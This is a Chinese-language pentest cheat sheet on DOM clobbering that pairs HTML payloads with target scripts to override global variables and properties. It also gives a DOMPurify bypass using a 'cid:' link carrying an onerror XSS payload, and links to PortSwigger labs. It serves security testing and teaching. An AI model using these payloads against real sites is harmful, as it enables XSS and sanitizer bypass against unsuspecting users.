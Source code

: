 # DOM 替换

> DOM 替换是一种技术，通过为某些具有特定 ID 或名称的 HTML 元素命名，可以覆盖或“替换”全局变量。这可能导致脚本中出现意外行为，并可能引发安全漏洞。

## 概述

- [工具](#工具)
- [方法论](#方法论)
- [实验室](#实验室)
- [参考文献](#参考文献)

## 工具

- [SoheilKhodayari/DOMClobbering](https://domclob.xyz/domc_markups/list) - 针对移动和桌面浏览器的 DOM 替换有效负载综合列表
- [yeswehack/Dom-Explorer](https://github.com/yeswehack/Dom-Explorer) - 一款基于网络的工具，用于测试各种 HTML 解析器和过滤器
- [yeswehack/Dom-Explorer Live](https://yeswehack.github.io/Dom-Explorer/dom-explorer#eyJpbnB1dCI6IiIsInBpcGVsaW5lcyI6W3siaWQiOiJ0ZGpvZjYwNSIsIm5hbWUiOiJEb20gVHJlZSIsInBpcGVzIjpbeyJuYW1lIjoiRG9tUGFyc2VyIiwiaWQiOiJhYjU1anN2YyIsImhpZGUiOmZhbHNlLCJza2lwIjpmYWxzZSwib3B0cyI6eyJ0eXBlIjoidGV4dC9odG1sIiwic2VsZWN0b3IiOiJib2R5Iiwib3V0cHV0IjoiaW5uZXJIVE1MIiwiYWRkRG9jdHlwZSI6dHJ1ZX19XX1dfQ==) - 揭示浏览器如何解析 HTML 并发现变异的 XSS 漏洞

## 方法论

利用需要页面中存在任何形式的 `HTML 注入`。

- 替换 `x.y.value`

    ```html
    <!-- 有效负载 -->
    <form id=x><output id=y>我被替换了</output>

    <!-- 目标 -->
    <script>alert(x.y.value);</script>
    ```

- 使用 ID 和 name 属性一起替换 `x.y`，形成 DOM 集合

    ```html
    <!-- 有效负载 -->
    <a id=x><a id=x name=y href="被替换了">

    <!-- 目标 -->
    <script>alert(x.y)</script>
    ```

- 替换 `x.y.z` - 三层深度

    ```html
    <!-- 有效负载 -->
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    <!-- 目标 -->
    <script>alert(x.y.z)</script>
    ```

- 替换 `a.b.c.d` - 超过三层

    ```html
    <!-- 有效负载 -->
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:被替换了>测试</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    <!-- 目标 -->
    <script>alert(a.b.c.d)</script>
    ```

- 替换 `forEach`（仅限 Chrome）

    ```html
    <!-- 有效负载 -->
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    <!-- 目标 -->
    <script>x.y.forEach(element=>alert(element))</script>
    ```

- 使用 `<html>` 或 `<body>` 标签替换 `document.getElementById()`，这些标签具有相同的 `id` 属性

    ```html
    <!-- 有效负载 -->
    <html id="cdnDomain">被替换了</html>
    <svg><body id=cdnDomain>被替换了</body></svg>


    <!-- 目标 -->
    <script>
    alert(document.getElementById('cdnDomain').innerText);//被替换了
    </script>
    ```

- 替换 `x.username`

    ```html
    <!-- 有效负载 -->
    <a id=x href="ftp:被替换了-用户名:被替换了-密码@a">

    <!-- 目标 -->
    <script>
    alert(x.username)//被替换了-用户名
    alert(x.password)//被替换了-密码
    </script>
    ```

- 替换（仅限 Firefox）

    ```html
    <!-- 有效负载 -->
    <base href=a:abc><a id=x href="Firefox<>">

    <!-- 目标 -->
    <script>
    alert(x)//Firefox<>
    </script>
    ```

- 替换（仅限 Chrome）

    ```html
    <!-- 有效负载 -->
    <base href="a://被替换了<>"><a id=x name=x><a id=x name=xyz href=123>

    <!-- 目标 -->
    <script>
    alert(x.xyz)//a://被替换了<>
    </script>
    ```

## 技巧

- DomPurify 允许协议 `cid:`，并且不会对双引号 (`"`) 进行编码：`<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

## 实验室

- [PortSwigger - 利用 DOM 替换启用 XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
- [PortSwigger - 替换 DOM 属性以绕过 HTML 过滤器](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
- [PortSwigger - 受 CSP 保护的 DOM 替换测试案例](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)

## 参考文献

- [通过 DOM 替换绕过 CSP - Gareth Heyes - 2023年6月5日](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [DOM 替换 - HackTricks - 2023年1月27日](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
- [DOM 替换 - PortSwigger - 2020年9月25日](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [DOM 替换卷土重来 - Gareth Heyes - 2020年2月6日](https://portswigger.net/research/dom-clobbering-strikes-back)
- [通过 DOM 替换劫持服务工作者 - Gareth Heyes - 2022年11月29日](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)